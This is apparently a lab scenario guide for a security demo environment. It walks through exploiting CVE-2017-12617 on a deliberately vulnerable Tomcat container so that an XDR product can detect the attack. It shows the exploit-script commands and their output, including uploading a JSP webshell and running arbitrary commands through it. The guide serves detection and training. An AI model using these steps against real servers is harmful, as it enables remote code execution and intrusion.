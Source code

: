 # Scenario: Detect Tomcat RCE

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
cd ${ONEPATH}/exploits/tomcat-rce/
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-01.png "Poc")

### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-tomcat-rce-02.png "Exploit")

